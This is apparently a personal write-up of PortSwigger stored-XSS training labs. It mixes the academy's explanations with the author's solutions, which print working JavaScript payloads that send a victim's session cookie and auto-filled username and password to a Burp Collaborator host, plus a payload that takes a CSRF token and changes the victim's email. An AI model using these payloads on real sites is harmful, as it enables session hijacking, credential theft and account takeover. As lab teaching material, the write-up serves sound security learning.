

# Stored XSS

In this section, we'll explain stored cross-site scripting, describe the impact of stored XSS attacks, and spell out how to find stored XSS vulnerabilities.

## What is stored cross-site scripting?

Stored cross-site scripting (also known as second-order or persistent XSS) arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way.

Suppose a website allows users to submit comments on blog posts, which are displayed to other users. Users submit comments using an HTTP request like the following:

`POST /post/comment HTTP/1.1 Host: vulnerable-website.com Content-Length: 100 postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net`

After this comment has been submitted, any user who visits the blog post will receive the following within the application's response:

`<p>This post was extremely helpful.</p>`

Assuming the application doesn't perform any other processing of the data, an attacker can submit a malicious comment like this:

`<script>/* Bad stuff here... */</script>`

Within the attacker's request, this comment would be URL-encoded as:

`comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E`

Any user who visits the blog post will now receive the following within the application's response:

`<p><script>/* Bad stuff here... */</script></p>`

The script supplied by the attacker will then execute in the victim user's browser, in the context of their session with the application.

## Lab: Stored XSS into HTML context with nothing encoded

> This lab contains a [stored cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the comment functionality.
> To solve this lab, submit a comment that calls the `alert` function when the blog post is viewed.

--> This lab is reflecting the user comments in `<p>` tags so i just inserted the simple xss payload which was like this :

```html
<script>
  alert(1);
</script>
```

And final request looks like this:


And after forwarding the request we solved the lab!

## Impact of stored XSS attacks

If an attacker can control a script that is executed in the victim's browser, then they can typically fully compromise that user. The attacker can carry out any of the actions that are applicable to the impact of [reflected XSS vulnerabilities](https://portswigger.net/web-security/cross-site-scripting/reflected).

In terms of exploitability, the key difference between reflected and stored XSS is that a stored XSS vulnerability enables attacks that are self-contained within the application itself. The attacker does not need to find an external way of inducing other users to make a particular request containing their exploit. Rather, the attacker places their exploit into the application itself and simply waits for users to encounter it.

The self-contained nature of stored cross-site scripting exploits is particularly relevant in situations where an XSS vulnerability only affects users who are currently logged in to the application. If the XSS is reflected, then the attack must be fortuitously timed: a user who is induced to make the attacker's request at a time when they are not logged in will not be compromised. In contrast, if the XSS is stored, then the user is guaranteed to be logged in at the time they encounter the exploit.

## Lab: Exploiting cross-site scripting to steal cookies

> This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

I searched for cookie stealing payload and found some resources!

--> I followed [this](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md) resource and tried some payloads and finally this payload worked:

```html
<script>
  var i = new Image();
  i.src =
    "https://4puts3q03e1k88lu3twb9agkpbv2jr.burpcollaborator.net/?" +
    document.cookie;
</script>
```

So final request looks like this:



--> And after forwarding the request let's goto our collaborator client and click `poll now` and boom we got the request !


Now we have the cookie so let's use it to impersonate the user!

So first click on `Home` and intercept the request And change the `session` cookie to the one which you got from collaborator. After that you will get one more request for `academicLabHeader` so change the cookie for that request too. And after forwarding that request you solved the lab!


## Exploiting cross-site scripting to capture passwords

These days, many users have password managers that auto-fill their passwords. You can take advantage of this by creating a password input, reading out the auto-filled password, and sending it to your own domain. This technique avoids most of the problems associated with stealing cookies, and can even gain access to every other account where the victim has reused the same password.

The primary disadvantage of this technique is that it only works on users who have a password manager that performs password auto-fill. (Of course, if a user doesn't have a password saved you can still attempt to obtain their password through an on-site phishing attack, but it's not quite the same.)

## Lab:Exploiting cross-site scripting to capture passwords

> This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

--> So i searched for `password stealing with XSS` and i found many blogs and other resources and i tried some payloads one by one, For example:

==> Payload 1:

```html
<script>
  let username = document.getElementById("username").value;
  let password = document.getElementById("password").value;
  var i = new Image();
  i.src =
    "https://y76joy2bdjb07uru2hcp3d76bxhn5c.burpcollaborator.net/?" +
    username +
    "Password:" +
    password;
</script>
```

But this gave me `undefined` values because it didn't get loaded and i was thinking that we can grab it using their id and at this point i just guessed the id of both input elements so i was not confident that it will work

After that i tried to make my own input fields with `input` tag and accessing their values using `id` which we were guessing in payload 1 and we can trigger our fetch method on `onchange` method but idk why i was not getting request back in burp collaborator

==> Payload 2:

```
<input name="username" id="username">
<input name="password" id="password" type="password" onchange="fetch('https://iwi3dirv230kweger119sxwq0h6cu1.burpcollaborator.net/?'+username.value+':'+this.value')">
```

But it didn't worked for me :/

So now let's try another payload:

This time i thought that if page gets loaded then it will take some time to get username and password loaded in input fields so i set the `setTimeout` method for delay of 1 second.

==> Payload 3:

```html
<script>
  document.body.onload = setTimeout(function () {
    let username = document.getElementById("username").value;
    let password = document.getElementById("password").value;
    var i = new Image();
    i.src =
      "https://y76joy2bdjb07uru2hcp3d76bxhn5c.burpcollaborator.net/?" +
      username +
      "Password:" +
      password;
  }, 1000);
</script>
```

And this payload worked!!

We got back our request in burp collaborator :


And afer login as that username and password we solved the lab!


Resources:

- https://markitzeroday.com/xss/autocomplete/2018/07/08/password-autocomplete-and-modern-browsers.html
- https://ancat.github.io/xss/2017/01/08/stealing-plaintext-passwords.html

## Exploiting cross-site scripting to perform [CSRF](https://portswigger.net/web-security/csrf)

Anything a legitimate user can do on a web site, you can probably do too with XSS. Depending on the site you're targeting, you might be able to make a victim send a message, accept a friend request, commit a backdoor to a source code repository, or transfer some Bitcoin.

Some websites allow logged-in users to change their email address without re-entering their password. If you've found an XSS vulnerability, you can make it trigger this functionality to change the victim's email address to one that you control, and then trigger a password reset to gain access to the account.

This type of exploit is typically referred to as [cross-site request forgery](https://portswigger.net/web-security/csrf) (CSRF), which is slightly confusing because CSRF can also occur as a standalone vulnerability. When CSRF occurs as a standalone vulnerability, it can be patched using strategies like anti-CSRF tokens. However, these strategies do not provide any protection if an XSS vulnerability is also present.

## Lab: Exploiting XSS to perform CSRF

> This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a [CSRF attack](https://portswigger.net/web-security/csrf) and change the email address of someone who views the blog post comments.
> You can log in to your own account using the following credentials: `wiener:peter`

--> So first i logged in as `wiener` and after login we can see that we have functionality of changing email. so i intercepted the change email request and after that done this steps :

Do `right click -> engagement tools -> generate CSRF Poc`

After that goto `options` in CSRF poc tab and select `include auto-submit script` and click regenerate and then copy the HTML.

After that open any post and paste that HTML.And now whenever you will goto that post it will redirect you to your account page and change your email!

But it didn't solved the lab idk why :(

--> So now maybe we don't have to redirect the user in different page instead we have to do this using js only.

So i used XMLHTTPRequest and made this payload to make request to my acoount page in background whenever page gets loaded.

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = handleResponse;
  req.open("get", "/my-account", true);
  req.send();
  function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open("post", "/my-account/change-email", true);
    changeReq.send("csrf=" + token + "&email=test@test.com");
  }
</script>
```

And it worked !!

--> And we solved the lab!
